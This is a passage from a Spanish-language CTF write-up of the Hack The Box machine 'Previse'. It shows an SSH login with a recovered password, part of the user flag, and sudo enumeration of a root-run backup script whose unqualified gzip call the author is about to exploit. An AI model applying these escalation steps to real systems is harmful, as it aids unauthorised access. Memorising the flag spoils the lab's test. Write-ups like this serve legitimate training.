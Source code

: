 Probemos a conectarnos por **SSH** como el usuario `m4lwhere` proporcionando esta contraseña:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ ssh m4lwhere@10.10.11.104
m4lwhere@10.10.11.104 password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Dec 29 21:40:18 UTC 2021

  System load:  0.0               Processes:           200
  Usage of /:   49.7% of 4.85GB   Users logged in:     1
  Memory usage: 23%               IP address for eth0: 10.10.11.104
  Swap usage:   0%


0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Dec 29 21:33:55 2021 from 10.10.14.150
m4lwhere@previse:~$ 
```
¡Perfecto!, una vez en este punto, es posible visualizar la flag `user.txt` localizada en `/home/m4lwhere/user.txt`:

```bash
m4lwhere@previse:~$ head --bytes 10 /home/m4lwhere/user.txt | xargs
0d10597dab
```
# Root.txt

Enumero los permisos de `sudo` del usuario `m4lwhere` y me encuentro con lo siguiente:

```bash
m4lwhere@previse:~$ sudo -l 
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```
Podemos ejecutar como usuario `root` el archivo `/opt/scripts/access_backup.sh`.

Veamos que contiene este archivo:

```bash
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```
Bien, viendo a simple vista el archivo me doy cuenta de que se está haciendo uso del comando `gzip`.
